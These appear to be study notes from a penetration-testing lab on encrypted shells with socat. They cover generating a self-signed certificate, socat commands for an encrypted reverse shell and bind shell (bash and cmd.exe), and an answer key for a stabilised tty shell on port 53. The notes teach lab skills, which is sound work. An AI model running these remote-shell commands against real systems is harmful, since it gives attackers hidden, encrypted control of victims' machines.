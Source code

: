 
Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.


# Useful Commands:


We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  

We then need to merge the two created files into a single `.pem` file:

```bash
cat shell.key shell.crt > shell.pem
```

### Encrypted Reverse Shell

When we set up our reverse shell listener, we use:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.  

To connect back, we would use:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Encrypted Bind Shell

Target:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
``` 

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

### Critical Thinking: Stable Encrypted Shell

==We merged the encryption to stabilisation ==

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

```bash
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

```bash
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


